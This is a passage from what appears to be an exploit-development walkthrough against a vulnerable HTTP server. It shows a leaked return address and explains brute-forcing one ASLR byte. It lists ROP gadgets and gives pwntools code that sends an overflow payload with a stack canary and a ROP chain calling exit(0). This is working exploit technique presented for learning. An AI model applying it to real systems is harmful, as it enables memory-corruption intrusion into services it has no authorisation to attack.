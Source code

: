 ```bash
75e9a1
75e9a1b1
75e9a1b115
75e9a1b1157f
75e9a1b1157f00
75e9a1b1157f0000
good return: 0x7f15b1a1e975
```

We now have a return value that results in a clean exit.  In order to determine the base, we can observe that the base typically looks something like this every time we boot it up: `0x7f15b1a1e000`.  Of note, the high nibble on the second least significant bit, and the low nibble on the third least significant bit seem to be the variable here.  We can brute force the byte that makes up these combined nibbles with a search space of `256`.  

In order to bruteforce this portion, we will need our ROP gadget offsets.  The general idea is that for each byte in the range `0-256`, we will attempt to execute a ROP chain that will simply call exit with an exit code of 0.  If we land on the right byte, our base address should be correct, and the ROP gadget offsets should point to the correct locations in memory, therefore we should properly call exit.  Otherwise, we should see some SEGFAULT action again.

For the ROP chain itself, we will want to execute a [syscall](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md#x86_64-64_bit) for exit, which needs `60` in `RAX`, and `0` in `RDI`, so we'll need gadgets to populate the registers, as well as execute the syscall:

```bash
0x000000000000877f: pop rax; ret;
0x0000000000008876: pop rdi; ret;
0x0000000000052a25: syscall; ret;
```

These three will do nicely.

```python
 base = hex(u64(good_return))[2:9]

 for i in range(0xff):
     newbase = int((base + ("%02x" % i) + "000"), 16)

     POP_RAX_RET = newbase + 0x000000000000877f
     POP_RDI_RET = newbase + 0x0000000000008876
     SYSCALL_RET = newbase + 0x0000000000052a25

     payload1 = "Content-Length: 4096\r\n\r\n{}".format('\x00' * 0xf00).encode()
     payload2 = cyclic(264) + canary + (b'\x00' * 24)

     payload2 += p64(POP_RAX_RET)
     payload2 += p64(60)
     payload2 += p64(POP_RDI_RET)
     payload2 += p64(0)
     payload2 += p64(SYSCALL_RET)
     payload2 += good_return

     p = remote(server, 8080)
     p.send(payload1)
     time.sleep(0.1)
     p.send(payload2)
     p.recvuntil(b"\r\n\r\n").decode()
     r = p.recvall()
     p.close()

     ssh_stdin, ssh_stdout, ssh_stderr = ssh.exec_command("tail -n 1 {}".format(server_log))
     result = ssh_stdout.readline()
     if "status 0" in result:
         print("base: {}".format(hex(newbase)))
         break
```